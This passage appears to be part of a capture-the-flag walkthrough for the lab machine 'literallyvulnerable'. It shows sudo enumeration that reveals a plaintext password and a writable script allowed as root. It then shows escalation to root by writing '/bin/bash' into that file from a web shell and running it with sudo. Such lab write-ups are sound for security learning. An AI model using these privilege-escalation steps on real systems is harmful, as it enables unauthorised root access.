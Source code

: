  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Dec 10 20:44:06 UTC 2019

  System load:  0.0                Processes:            177
  Usage of /:   24.0% of 19.56GB   Users logged in:      0
  Memory usage: 73%                IP address for ens33: 192.168.211.147
  Swap usage:   7%

0 packages can be updated.
0 updates are security updates.

Last login: Thu Dec  5 11:32:48 2019 from 192.168.30.129
```

### Enumeration (sudo -l)

```
john@literallyvulnerable:/home/john/.local/share/tmpFiles$ sudo -l
sudo -l
[sudo] password for john: YZW$s8Y49IB#ZZJ

Matching Defaults entries for john on literallyvulnerable:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on literallyvulnerable:
    (root) /var/www/html/test.html
```

Looks like john can run the following command with root privileges -
/var/www/html/test.html.

### Escalating Privileges (code injection)

On the original web shell create the /var/www/html/test.html file using www-data
account.

```
www-data@literallyvulnerable:;/bin/bash$ cd /var/www/html
cd /var/www/html
www-data@literallyvulnerable:/var/www/html$ touch test.html
touch test.html
```

Once the file is created let’s insert /bin/bash into the file and make it
executable.

```
www-data@literallyvulnerable:/var/www/html$ echo '/bin/bash' >> test.html
echo '/bin/bash' >> test.html
www-data@literallyvulnerable:/var/www/html$ chmod +x test.html
chmod +x test.html
www-data@literallyvulnerable:/var/www/html$
```

### Root Foothold

Back on John's SSH shell, executing the newly created file.

```
john@literallyvulnerable:~$ sudo /var/www/html/test.html
root@literallyvulnerable:~# whoami
root
root@literallyvulnerable:~#
```
```